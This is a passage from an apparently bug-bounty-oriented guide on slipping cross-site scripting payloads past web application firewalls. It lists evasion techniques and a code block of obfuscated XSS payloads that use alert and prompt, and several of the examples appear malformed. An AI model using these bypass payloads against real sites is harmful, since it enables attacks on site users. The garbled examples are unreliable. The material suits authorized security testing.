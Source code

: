 Step 10: Unicode characters in HTML tags

Use Unicode characters in HTML tags, such as `＜`:

```html
＜script＞alert(1)＜/script＞
```





**Sample Scenario 2**

A bug bounty hunter is testing a web application that uses a WAF to protect against XSS attacks. The WAF is known to be implemented by the application owner or a third-party service provider.

Methodology Flow:

1. **Research the WAF**: The bug bounty hunter searches online for known bypass techniques and payloads for the specific WAF.
2. **Fuzzing**: The bug bounty hunter uses fuzzing tools to test the application and identify which part of the payload is being detected by the WAF's ruleset.
3. **Exploit the WAF's limitations**: The bug bounty hunter targets newer HTML tags like `<details>` or `<x>` that have a higher chance of bypassing the WAF.
4. **Confuse the WAF**: The bug bounty hunter expands their payloads to make it harder for the WAF to detect malicious input.
5. **Alternatives for `alert`**: The bug bounty hunter uses `window['ale'+'rt'](origin)` to bypass the WAF's detection of `alert`.
6. **Unicode characters**: The bug bounty hunter uses Unicode characters like `\u0061` or `\u{0061}` to bypass the WAF.
7. **HTML-encoded values**: The bug bounty hunter extends HTML-encoded values by adding `0` after the number, like `alert&#0000000040"1")`.
8. **Alternatives for JavaScript scheme**: The bug bounty hunter uses alternatives like `Java\tScript` or `Java%09Script` to bypass the WAF.
9. **Exploit SVG-based XSS filters**: The bug bounty hunter uses the `use` element to import an SVG via a data URL and execute JavaScript automatically.
10. **Unicode characters in HTML tags**: The bug bounty hunter uses Unicode characters in HTML tags, such as `＜`, to bypass the WAF.

Code Examples:

{% code overflow="wrap" %}
```html
<!-- Using Unicode characters to bypass the WAF -->
<img src="/" =_=" title="onerror='prompt(1)'"><--`<img/src=` onerror=alert(1)> --!>

<!-- Using HTML encoded values to bypass the WAF -->
<img src="/" =_=" title="onerror=&#0000000040&#0000000061&#000000006c&#0000000065&#0000000072&#0000000074&#0000000028&#0000000031&#0000000029">

<!-- Using alternatives for JavaScript scheme to bypass the WAF -->
<a href="JavaScript:alert(1)">XSS</a>

<!-- Using SVG-based XSS filter to bypass the WAF -->
<svg>
  <use href="data:image/svg+xml;base64,PHN2ZyB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHZpZXdCb3g9IjAgMCAxIDEiIHdpZHRoPSIxMDAlIiBoZWlnaHQ9IjEwMCUiPjxmb250IGlkPSJhIiBzdHlsZT0iZW5hYmxlLWJhY2tncm91bmQ6bmV3IDAgMCAxIDEgOyIgZmlsbD0iIzAwMCI+PC9mb250PiBjbGFzcz0iYWN0aXZlIj48L3N2Zz4="></use>
</svg>

<!-- Using Unicode characters in HTML tags to bypass the WAF -->
<＜details/open/ontoggle=JS>
```
{% endcode %}
